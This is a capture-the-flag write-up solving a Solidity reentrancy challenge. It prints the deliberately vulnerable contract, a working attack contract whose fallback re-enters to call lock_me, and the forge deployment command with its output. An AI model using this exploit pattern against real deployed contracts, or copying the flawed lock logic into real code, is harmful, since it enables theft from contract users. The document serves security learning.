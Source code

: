 # Task

1) The goal of this challenge is to be able to add your address to the array of winners.
2) Make the getAllwiners function incude your name in the array of winners.

# Contract Address

0x771F8f8FD270eD99db6a3B5B7e1d9f6417394249

# Contract

```sol
// SPDX-License-Identifier: UNLICENSED

pragma solidity 0.8.13;

contract Challenge {
    address owner;
    address[] public winners;
    mapping(address => bool) public HasInteracted;
    mapping(address => string) public Names;
    bool lock;
    bool isPause;

    constructor() {
        owner = msg.sender;
    }

    function exploit_me(string memory _name) public {
        require(!isPause);
        lock = false;

        msg.sender.call("");

        require(lock);
        require(
            HasInteracted[msg.sender] == false,
            "This address has interacted before"
        );

        HasInteracted[msg.sender] = true;
        winners.push(tx.origin);
        string memory name_ = Names[tx.origin];
        require(
            keccak256(abi.encode(name_)) == keccak256(abi.encode("")),
            "Not a unique winner"
        );
        Names[tx.origin] = _name;
    }

    function lock_me() public {
        lock = true;
    }

    function pause(bool _status) external {
        require(msg.sender == owner);
        isPause = _status;
    }

    function getAllwiners() external view returns (string[] memory _names) {
        _names = new string[](winners.length);
        for (uint i; i < winners.length; i++) {
            _names[i] = Names[winners[i]];
        }
    }
}
```
### Key Observations

1. **Pause and Lock Mechanisms**: The function `exploit_me` requires `isPause` to be `false`. Additionally, the `lock` variable is set to `false` at the beginning of the function, which must be changed to `true` for the function to proceed, achieved through calling `lock_me`.
    
2. **Reentrancy Vulnerability**: `msg.sender.call("")` is an external call that allows reentrancy. In this case, you could call `lock_me` within a fallback function to set `lock` to `true`, enabling the rest of the function's execution.
    
3. **Unique Winner Condition**: The function ensures that only unique addresses are added as winners by checking if the name is empty in the `Names` mapping. This prevents duplicate entries.

Since we've identified the vulnerability, lets cook our attack contract

# Attack Contract

```sol
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.13;

import "../src/winner.sol";

contract attackWinner {
    bool public toggle;
    Challenge public attack;

    constructor(address _targetaddr) {
        attack = Challenge(_targetaddr);
    }

    function bankai(string memory _name) external {
        attack.exploit_me(_name);
    }

    fallback() external payable {
        if (!toggle) {
            toggle = true;
            attack.lock_me();
        }
    }


}
```
The `attackWinner` contract exploits a reentrancy vulnerability in the `Challenge` contract by using a fallback function. Here’s a concise breakdown:

1. **`attackWinner` Constructor**: Initializes the contract with the address of the target `Challenge` contract.
    
2. **`bankai` Function**: Calls `exploit_me` on `Challenge`, passing a name to start the exploit.
    
3. **Fallback Function**: Triggered during reentrancy, it toggles `lock` in the `Challenge` contract by calling `lock_me`, bypassing a security check in `exploit_me`.
    

In summary, `attackWinner` uses reentrancy to manipulate `lock` in `Challenge`, allowing it to add itself to the winners list in `Challenge`.

Lets deploy the attack contract using foundry forge

```
┌──(bl4ck4non💀bl4ck4non-sec)-[~/Documents/web3/foundry/learninggg_foundryyyy]
└─$ forge create --private-key $PRIVATE_KEY src/attackWinner.sol:attackWinner --constructor-args "0x771F8f8FD270eD99db6a3B5B7e1d9f6417394249" 
[⠊] Compiling...
No files changed, compilation skipped
Deployer: 0x296f076DB25846579300E2F89aCBC20bcd96fd3c
Deployed to: 0x1BfEF0b68F985a26aDB235afA2Ab86514f6DeDC8
Transaction hash: 0x650f0540f8ab4636da94695032be758ae909ca136cad42ec4d55b0472cc9ebac
```

![image](https://github.com/user-attachments/assets/0077e574-ab0a-423e-aa56-60cbe4ae24b4)

Now, lets call the `getAllwiners()` function

![image](https://github.com/user-attachments/assets/65a0b6cb-b295-414c-8a1a-f5b9527287ef)

As you can see from the above screenshot my name `:xD` is included in the array of winners

This challenge has been successfully completed

---------------------------

Till Next Time :xD























